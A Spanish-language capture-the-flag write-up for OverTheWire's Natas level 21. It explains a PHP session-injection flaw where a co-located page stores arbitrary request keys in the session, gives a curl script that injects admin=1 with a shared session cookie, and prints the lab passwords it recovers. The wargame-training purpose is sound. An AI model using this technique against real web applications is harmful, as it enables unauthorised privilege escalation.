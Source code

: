 ```yaml
---
title: Natas-21
published: true
---
```


```
Url del reto: http://natas20.natas.labs.overthewire.org/index.php
login:natas21
 pass:IFekPyrQXftziDEsUr3x21sYuahypdgJ
```

Este nivel trata de conseguir la variable de $_SESSION['admin']=1 para poder superar la prueba. 
Tendremos dos códigos php a estudiar. El de la pág principal que es el código que hemos encontrado en anteriores retos


```php
function print_credentials() {
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}
session_start();
print_credentials();

?>
```

Y el código que tenemos que estudiar es en la url http://natas21-experimenter.natas.labs.overthewire.org/

```php

session_start();

// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}

if(array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}

// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach($validkeys as $key => $defval) {
    $val = $defval;
    if(array_key_exists($key, $_SESSION)) {
    $val = $_SESSION[$key];
    } else {
    $_SESSION[$key] = $val;
    }
    $form .= "$key: <input name='$key' value='$val' /><br>";
}
$form .= '<input type="submit" name="submit" value="Update" />';
$form .= '</form>';

$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
$example = "<div style='$style'>Hello world!</div>"; 

```

Estudiando el código nos tenemos que centrar en el siguiente bloque de código

```php
// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
```

Si existe $_REQUEST guardará el valor de estas variables en $_SESSION. Tenemos restringido las variables por POST, solo se permiten:

```php
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
```

Para que se nos guarden en $_SESSION las variables que queremos, tenemos que enviar en la misma petición la parte POST y GET donde inyectaremos variables

Se puede realizar esto en la parte de inspección de firefox u otro navegador. Yo he decidido finalmente realizar estas peticiones por bash mediante curl

```bash

#!/bin/bash

# seteamos urls. en url_exp estan declaradas las variables por GET
url_exp='http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug&admin=1'
url_main='http://natas21.natas.labs.overthewire.org/index.php'

echo "<br>"
echo "<br>"
echo 'ENTRANDO EN: natas21.natas.labs.overthewire.org'
echo "<br>"
echo "<br>"

#Primero la cookie url_main http://natas21.natas.labs.overthewire.org/
# tenemos que ir arrastrando la cookie entre las páginas que vamos visitando. Sino no funcionará
curl --cookie-jar cookie.txt -s -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ $url_main
cookie=$(cat cookie.txt |tail -1| awk -F " " '{print $NF}')

echo "<br>"
echo "<br>"
echo 'ENTRANDO EN: natas21-experimenter.natas.labs.overthewire.org'
echo "<br>"
echo "<br>"

#Realizamos conexión, arrastrando la cookie a natas21-experimenter.natas.labs.overthewire.org
#En esta petición enviamos los parametros POST y los GET (estan en la variable $url_exp /index.php?debug&admin=1
curl --cookie "PHPSESSID=$cookie" --referer $url_main $url_exp -s -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ -X POST -F align=center -F fontsize=100% -F bgcolor=yellow -F submit=Update


echo "<br>"
echo "<br>"
echo 'ENTRANDO DE NUEVO: natas21.natas.labs.overthewire.org'
echo "<br>"
echo "<br>"

# vamos de nuevo a la pagina principal arrastrando la cookie y las variables de _SESSION de natas21-experimenter
curl --cookie "PHPSESSID=$cookie" --referer $url_exp $url_main -s -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ

```

Ejecuto el código en bash

```
admin1@php:~$ bash bash-natas21.bash | html2text 


ENTRANDO EN: natas21.natas.labs.overthewire.org

****** natas21 ******
Note: this website is colocated with http://natas21-
experimenter.natas.labs.overthewire.org
You are logged in as a regular user. Login as an admin to retrieve credentials
for natas22.
View_sourcecode


ENTRANDO EN: natas21-experimenter.natas.labs.overthewire.org

****** natas21 - CSS style experimenter ******
Note: this website is colocated with http://natas21.natas.labs.overthewire.org
[DEBUG] Session contents:
Array ( [debug] => [admin] => 1 [align] => center [fontsize] => 100% [bgcolor]
=> yellow [submit] => Update )
Example:
Hello world!
Change example values here:
align: [center              ]
fontsize: [100%                ]
bgcolor: [yellow              ]
[Update]
View_sourcecode


ENTRANDO DE NUEVO: natas21.natas.labs.overthewire.org


****** natas21 ******
Note: this website is colocated with http://natas21-
experimenter.natas.labs.overthewire.org
You are an admin. The credentials for the next level are:
Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
View_sourcecode
```


Las credenciales del siguiente reto:

```
Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
```

[Volver al archivo](archive)

